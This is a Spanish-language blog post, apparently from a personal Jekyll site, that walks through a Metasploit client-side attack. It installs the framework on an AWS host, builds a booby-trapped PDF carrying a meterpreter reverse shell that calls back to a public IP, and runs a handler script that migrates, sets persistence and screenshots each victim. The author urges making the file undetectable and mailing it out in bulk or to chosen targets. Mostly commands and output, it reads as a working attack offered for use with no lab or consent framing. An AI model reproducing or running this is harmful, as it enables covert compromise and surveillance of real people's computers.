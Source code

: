 ```yaml
---
layout: post
title: "metasploit - client side attack"
---
```


## {{ page.title }}

###### {{ page.date | date_to_string }}

**[![](/assets/img/60.png)](/assets/img/60.png)**

#### Introducción

Entonces, estaba el otro día hablando sobre temas de seguridad y salíeron a mención metasploit y set, dos herramientas que facilitan el trabajo en el area, no conozco a persona interesada por el tema que no lo conozca. Hace algunos años habia estado interesado en mfs, así que pude notar la gran mejoria respecto a aquellos tiempos. Es increible, me siento como un chico de pelicula de policias cuando lo ejecuto.

Después de la charla, me quede con la espinita de que tan fácil sería montar algo usable por un total noob en el tema (me), y nada, al parecer hemos llegado a un punto donde cualquier persona puede montar una plataforma relativamente robusta para lanzar ataques. MMM, bueno, eso es desde hace tiempo, pero ahora, junto ahora (y justo como lo he experimentado) es muy fácil y no se requieren de mucha preparación. Tenemos servicios, como AWS, Linode que también ayudan a superar las limitaciones de las configuraciones NAT y el uptime. En mi opinión es una de las mejoras epocas para involucrarse en la seguridad informática.

Sin más preambulos, dejaré unos apuntes...  daré por sentado que se tiene una cuenta en AWS, es todo lo que realmente necesitaremos...

### Instalación

Lo primero que se tendrá que hacer, será instalar msf en la máquina virtual de AWS, en mi caso, he instalado ubuntu 12.04.., también es buena idea, abrir los puertos, 80, 443 y 22, por defecto solo abrira el 22, así que tendran que configurar el perfil de seguridad. Paquetes básicos

<pre class="sh_sh">
$ sudo apt-get install build-essential libreadline-dev libssl-dev libpq5 libpq-dev \
  libreadline5 libsqlite3-dev libpcap-dev subversion openjdk-7-jre git-core \
  autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer \
  libyaml-dev ruby1.9.3 nmap
</pre>

Gemas necesarias:

<pre class="sh_sh">
$ sudo gem install wirble msgpack sqlite3 pg activerecord nokogiri
</pre>

Metasploit

<pre class="sh_sh">
$ git clone https://github.com/rapid7/metasploit-framework mfs
</pre>

Esto creará una carpeta llamada 'mfs' con el framework dentro, ahora será momento de obtener privilegios de super usuario (para poder poner a escuchar handlers en cualquier puerto):

<pre class="sh_sh">
$ sudo su
# 
</pre>

- [http://www.darkoperator.com/installing-metasploit-in-ubuntu/](http://www.darkoperator.com/installing-metasploit-in-ubuntu/)
- [https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment](https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment)


### Payload

Una vez instalado, hay que crear un archivo que pueda ser enviado, que explote una vulnerabilidad en el equipo remoto y que nos devuelva el control del mismo, con metasploit es muy fácil:

<pre class="sh_sh">
# cd mfs/
mfs # ./msfconsole
...
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(adobe_utilprintf) > set FILENAME ganaste.pdf
FILENAME => ganaste.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 107.21.182.228
LHOST => 107.21.182.228
msf exploit(adobe_utilprintf) > set LPORT 443 (https)
msf exploit(adobe_utilprintf) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Creating 'ganaste.pdf' file...
[*] Generated output file /root/ganaste.pdf
[*] Exploit completed, but no session was created.
</pre>

Por defecto, el archivo que genera mfs no será util, gmail, hotmail, yahoo, no permitiran enviarlo, al detectarlo como un archivo malicioso, así que aquí tendrán que usar su imaginación para hacerlo indetectable.., lamentablemente no puedo ayudar con esa parte.., si lo hiciera y alguien más siguiera estos pasos seguramente dentro de poco, el método que utilice dejaría de ser util.., pero adelanto que no es demasiado complicado, solo es cuestión de buscar un poco y mfs ayuda mucho.., un par de horas de pruebas-errores deberian bastarles para encontrar un método que funcione.

- [http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks](http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks)

### Handler (servidor)

Listo, una vez que tengan un archivo indetectable, pueden enviarlo masivamente o selectivamente a las personas que lo deseen y a pulse de raton, tendran sesiones en cada una de esas computadoras (siempre y cuando hayan sido afectadas por la vulnerabilidad en cuestión). Para poder usar las sesiones más de una vez, es una buena idea migrar la sesión a un proceso más estable (en lugar de adobe, que en la máquina atacada se vera congelado y después mostrará una pantalla en blanco, pantalla que la mayoría de los usuarios cerraran, terminando la conexión) y luego configurarlo para que inicie con el sistema.

<pre class="sh_sh">
# cat /root/migrate_persistence.rc
run post/windows/manage/migrate
run persistence -U -i 5 -p 443 -r 107.21.182.22 //o la ip de la máquina donde tengan mfs
</pre>

<pre class="sh_sh">
# cat /root/autoruncommands.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 443
set LHOST 107.21.182.22
set AutoRunScript multi_console_command -rc /root/migrate_persistence.rc
set ExitOnSession false
exploit -j

-ruby-
  sleep(1)
  print_status("waiting on an incoming session...")
  while (true)
    framework.sessions.each_pair do |sid,s|
    thost = s.session_host

    if s.ext.aliases['stdapi']
      print_status("Screenshotting session #{sid} #{thost}...")
      s.console.run_single("screenshot -p #{thost}_#{sid}.jpg -v false -q 85")
    else
      print_status("session #{sid} #{thost} active, but not yet configurated")
    end
  end
end
-/ruby-
</pre>

<pre class="sh_sh">
# ./msfconsole -r /root/autoruncommands.rc
</pre>

- [http://johnbabio.wordpress.com/tag/autorunscript/](http://johnbabio.wordpress.com/tag/autorunscript/)

Listop, podemos empezar a divertirnos

- [http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics](http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics)
- [http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules](http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules)
- [http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/](http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/)
- [http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html](http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html)
